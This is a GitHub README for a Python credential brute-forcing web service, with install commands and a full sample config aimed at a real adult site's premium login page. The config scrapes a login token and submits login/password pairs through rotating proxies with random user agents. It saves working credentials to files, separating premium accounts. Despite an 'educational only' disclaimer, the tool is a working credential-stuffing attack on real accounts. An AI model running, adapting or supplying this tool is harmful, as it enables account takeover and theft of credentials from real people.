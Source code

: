 # 🧮 Py3Bruteforce a new way for bruteforcing with Python

## Warning
This was made only for educational, not for hacking ! Use it at your own risk!

## About

Py3Bruteforce is a web-service which allows you to write your own configs and work with them. 
Config-size is about 70-80 lines of code.


## Dashboard screenshot :

![Dashboard](https://github.com/fukttt/fukttt.github.io/raw/main/image/1.png)

Here you can see 
* Dashboard with running projects
* Wiki (for now he is empty)
* Logs (page with logs from projects)
* Upload files (uploading module/sources/proxies)
* System info (about CPU using in graph)
* Available modules (where u can choose module and run it)

## Installation

```bash
git clone https://github.com/fukttt/py3bruteforce.git
cd pybruteforce/
pip3 install -r requirements.txt
python3 app.py
```

### Sample config for PornHub

```python
  import requests
  from utils.utils import Help
  import os,sys
  from bs4 import BeautifulSoup as soup

  # Turning off warnings
  from requests.packages.urllib3.exceptions import InsecureRequestWarning
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


  class Brute(object):
      def __init__(self):
          # ========================================
          # Project information
          self.projectName = "Porn"
          self.projectFullName = "PornHub"
          self.description = "Author : Pirate2110"
      def check(self, login, password, proxytype, proxy, timeout):
          try:
              # if proxy == null pass
              if proxy == "err":
                  print("proxerr")
                  pass
              else:
                  with requests.session() as s:
                      # All what u need for project start - here
                      # ========================================
                      # Proxy
                      if proxytype == "no":
                          proxies = None
                      elif proxytype == "burp":
                          proxies = {'https': '127.0.0.1:8080', 'http': '127.0.0.1:8080'}
                      elif proxytype == "https":
                          proxies = {'https': "http://" + proxy}
                      elif proxytype == "socks4":
                          proxies = {'https': "socks4://" + proxy}
                      elif proxytype == "socks5":
                          proxies = {'https': "socks5://" + proxy}

                      # ========================================
                      # Headers
                      headers = {'User-Agent' : Help.getRandomUa()}
                      # Token
                      r = s.get("https://rt.pornhubpremium.com/premium/login", proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      site = soup(r.text, "html.parser")
                      token = site.find("input", id="token")
                      body = {'username' : login, 'password': password, 'remember_me' : 'on', 'from':'mobile_login', 'token' : str(token['value']), 'redirect' : '', 'from' : 'pc_premium_login', 'segment':'straight'}
                      # Auth request
                      r = s.post("https://rt.pornhubpremium.com/front/authenticate", data=body, proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      # ========================================
                      # good or bad if statement
                      if "\u041d\u0435\u0432\u0435\u0440\u043d\u043e\u0435" in r.json()['message']:
                          return "bad"

                      elif r.json()['success'] == "1":
                          if "https://rt.pornhubpremium.com/premium_signup?type=PhP-Lander" in r.json()['redirect']:
                              Help.writelog("good.txt", login + ":" + password + "|" + str(r.text))
                          else:
                              Help.writelog("premium.txt", login + ":" + password + "|" + str(r.text))
                          return "good"
                          #return login + ":" + password + "|" + str(r.json()['result']['basic']) + "|" + str(r.json()['result']['bonus'])
                      else:
                          return "projerrror"
                      # ========================================
          except Exception as e:
              #  ========================================
              #  some info about error
              exc_type, exc_obj, exc_tb = sys.exc_info()
              fname = os.path.split(exc_tb.tb_frame.f_code.co_filename)[1]
              #print(e, exc_type, fname, exc_tb.tb_lineno)
              return "error"
  ```


